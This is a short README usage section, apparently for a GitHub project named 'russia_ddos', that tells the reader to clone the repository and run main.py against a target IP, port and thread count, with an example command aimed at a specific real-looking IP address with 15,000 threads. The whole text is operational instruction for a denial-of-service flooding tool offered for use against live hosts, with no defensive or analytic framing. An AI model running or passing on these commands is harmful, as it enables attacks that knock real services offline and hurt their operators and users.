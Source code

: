 ## Usage
Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
python -u main.py -s 213.24.76.23 -p 80 -t 15000
```
